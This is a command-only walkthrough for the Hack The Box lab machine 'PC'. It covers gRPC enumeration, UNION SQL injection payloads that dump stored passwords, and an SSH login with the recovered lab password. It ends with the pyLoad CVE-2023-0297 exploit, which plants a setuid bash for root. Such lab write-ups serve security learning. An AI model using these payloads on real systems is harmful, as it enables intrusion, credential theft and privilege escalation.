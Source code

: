 # 💻 HTB: PC – Command Notes

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.214
nmap -p 22,50051 -sCV 10.10.11.214
```

### Check Unknown Port (TCP 50051)
```bash
nc 10.10.11.214 50051
```

---

## 📡 gRPC Enumeration

### Install grpcurl (if needed)
```bash
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
```

### Basic Enumeration
```bash
grpcurl -plaintext 10.10.11.214:50051 list
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe SimpleApp
grpcurl -plaintext 10.10.11.214:50051 describe .LoginUserRequest
grpcurl -plaintext 10.10.11.214:50051 describe .getInfoRequest
```

---

## 👤 User Enumeration & Exploitation

### Register & Login
```bash
grpcurl -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.RegisterUser
grpcurl -v -d 'username: "0xdf", password: "0xdf0xdf"' -plaintext -format text 10.10.11.214:50051 SimpleApp.LoginUser
```

### Store and Use Token
```bash
export TOKEN=<token_from_login>
grpcurl -d 'id: "54"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🩻 SQLi via gRPC

### Check SQLi with `union select`
```bash
grpcurl -d 'id: "320 union select 1"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Identify DBMS
```bash
grpcurl -d 'id: "320 union select sqlite_version()"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Tables
```bash
grpcurl -d 'id: "320 union select group_concat(tbl_name) from sqlite_master where type=\"table\" and tbl_name NOT LIKE \"sqlite_%\""' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Get Table Structure
```bash
grpcurl -d 'id: "320 union select group_concat(sql) from sqlite_master where type!=\"meta\" and sql NOT NULL"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

### Extract Data from `accounts` Table
```bash
grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
```

---

## 🐚 Shell as sau

### [SSH](SSH) Login
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214
```

---

## 🚀 Privilege Escalation via PyLoad (CVE-2023-0297)

### Confirm Local Web Access
```bash
curl localhost:9666
curl localhost:8000
```

### SSH Port Forwarding
```bash
sshpass -p 'HereIsYourPassWord1431' ssh sau@10.10.11.214 -L 9666:localhost:9666 -L 8000:localhost:8000
```

### Exploit POC (CVE-2023-0297)
```bash
curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
```

### Root Shell via SetUID Bash
```bash
curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
/tmp/0xdf -p
```

---

## 🔬 Beyond Root – App Inspection

### App Location
```bash
cd /opt/app
ls
```

### Files
- `app.proto`: GRPC proto definitions
- `app.py`: GRPC service implementation
- `sqlite.db`: backend database